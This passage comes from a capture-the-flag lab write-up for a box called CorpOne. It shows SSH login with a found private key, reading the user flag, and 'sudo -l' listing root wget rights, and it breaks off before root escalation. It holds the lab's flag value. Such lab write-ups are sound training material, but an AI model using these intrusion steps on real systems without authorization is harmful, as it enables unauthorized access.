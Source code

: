  
---

## ⚙️ Gaining Access

- Cool, since I have username and `id_rsa` I tried logging with SSH with those credentials.

  ```
  chmod 400 id_rsa
  ssh -i id_rsa jessie@10.10.82.183
  Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
  
   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage
  
  
  8 packages can be updated.
  8 updates are security updates.
  
  jessie@CorpOne:~$ whoami
  jessie
  ```
  
- Awesome, it worked, let's get those flags!

---

## 🧍 User Privilege Escalation

- You already know the drill.

  ```
  jessie@CorpOne:~$ cd Documents
  jessie@CorpOne:~/Documents$ ls
  user_flag.txt
  
  jessie@CorpOne:~/Documents$ cat user_flag.txt 
  057c67131c3d5e42dd5cd3075b198ff6
  ```
  
- Moving to root flag.

---

## 👑 Root Privilege Escalation

- I found a way to root immediately with `sudo -l`.

  ```
  sudo -l
  Matching Defaults entries for jessie on CorpOne:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jessie may run the following commands on CorpOne:
      (ALL : ALL) ALL
      (root) NOPASSWD: /usr/bin/wget
  ```
  